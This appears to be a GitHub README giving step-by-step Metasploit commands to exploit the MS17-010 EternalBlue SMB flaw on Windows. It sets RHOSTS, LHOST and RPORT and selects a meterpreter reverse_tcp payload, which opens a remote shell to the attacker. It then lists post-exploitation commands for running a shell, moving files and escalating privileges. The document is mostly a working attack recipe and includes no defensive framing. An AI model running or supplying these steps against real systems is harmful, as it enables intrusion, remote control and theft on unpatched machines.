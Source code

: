 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

Once inside Metasploit, you can search for the EternalBlue module using:

```bash
show module
```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

```bash
Set RHOSTS <Target IP>
```

Review other options that might need configuration using the `show options` command and set them accordingly. Common options include `LHOST`, `RPORT`, etc.
-----------------------------------------------------------------------------
| Parameter | Description                           | Example Usage         |
|-----------|---------------------------------------|-----------------------|
| RHOSTS    | Remote host(s) IP address(es)         | set RHOSTS 192.168.1.5|
| LHOST     | Local host listening IP for payloads  | set LHOST 192.168.1.2 |
| RPORT     | Remote port for the target service    | set RPORT 445         |
-----------------------------------------------------------------------------
## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using :
  
```bash
shell
```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.



